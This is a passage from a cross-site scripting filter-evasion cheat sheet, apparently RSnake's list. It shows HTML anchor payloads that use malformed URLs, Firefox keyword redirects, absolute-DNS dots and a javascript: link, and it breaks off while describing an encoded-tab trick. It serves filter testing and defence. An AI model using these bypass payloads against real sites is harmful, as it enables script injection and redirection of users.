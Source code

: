 Firefox uses Google's "feeling lucky" function to redirect the user to any keywords you type in. So if your exploitable page is the top for some random keyword (as you see here) you can use that feature against any Firefox user. This uses Firefox's `keyword:` protocol. You can concatenate several keywords by using something like the following `keyword:XSS+RSnake` for instance. This no longer works within Firefox as of 2.0.

```html
<A HREF="//google">XSS</A>
```

### Google "feeling lucky" part 2

This uses a very tiny trick that appears to work Firefox only, because of it's implementation of the "feeling lucky" function. Unlike the next one this does not work in Opera because Opera believes that this is the old HTTP Basic Auth phishing attack, which it is not. It's simply a malformed URL. If you click okay on the dialogue it will work, but as a result of the erroneous dialogue box I am saying that this is not supported in Opera, and it is no longer supported in Firefox as of 2.0:

```html
<A HREF="http://ha.ckers.org@google">XSS</A>
```

### Google "feeling lucky" part 3

This uses a malformed URL that appears to work in Firefox and Opera only, because if their implementation of the "feeling lucky" function. Like all of the above it requires that you are \#1 in Google for the keyword in question (in this case "google"):

```html
<A HREF="http://google:ha.ckers.org">XSS</A>
```

### Removing CNAMEs

When combined with the above URL, removing `www.` will save an additional 4 bytes for a total byte savings of 9 for servers that have this set up properly):

```html
<A HREF="http://google.com/">XSS</A>
```

Extra dot for absolute DNS:

```html
<A HREF="http://www.google.com./">XSS</A>
```

### JavaScript Link Location

```html
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```

### Content Replace as Attack Vector

Assuming `http://www.google.com/` is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: `java&\#x09;script:` was converted into `java script:`, which renders in IE, Netscape 8.1+ in secure site mode and Opera):
